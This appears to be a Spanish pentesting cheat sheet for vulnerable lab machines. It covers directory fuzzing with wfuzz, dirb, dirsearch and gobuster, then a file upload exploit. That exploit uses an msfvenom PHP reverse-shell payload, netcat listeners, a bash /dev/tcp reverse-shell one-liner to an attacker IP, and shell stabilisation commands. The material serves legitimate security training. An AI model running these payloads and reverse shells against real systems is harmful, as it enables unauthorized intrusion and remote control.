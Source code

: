 > **Nota**: también hay que añadir lo que encontremos en el /etc/hosts&#x20;

## Otras Herramientas Fuzzing Web – Uso de WFUZZ, DIRB y DIRSEARCH

{% embed url="https://vulnyx.com/#jenk" %}

```bash
wfuzz -c --hc 404 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt http://<IP máquina víctima/FUZZ
```

```bash
dirb http://<IP máquina víctima>
```

```bash
dirsearch -u http://<IP máquina víctima>/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
```

## Explotación de vulnerabilidad File Upload

{% embed url="https://www.vulnhub.com/entry/sectalks-bne0x03-simple,141" %}

```bash
msfvenom -p php/reverse_tcp LHOST=<IP máquina atacante> LPORT=443 -f raw >pwned.php
```

Tenemos que ver siempre donde se subió por lo que realizamos el comando:

```bash
gobuster dir -u http://<IP máquina víctima>/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

Nos ponemos en escucha.

```bash
nc -nlvp 443
```

Nos mandamos la Reverse Shell. Por lo que nos ponemos en escucha otra vez.

```bash
nc -nlvp 4444
```

```bash
bash -c "sh -i >& /dev/tcp/<IP máquina atacante/4444 0>&1"
```

## Primeros pasos tras la Intrusión (Tratamiento de la TTY)

Al hacer la Reverse Shell tenemos que hacer los siguientes comandos para trabajar más cómodamente en la máquina víctima.

```bash
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```
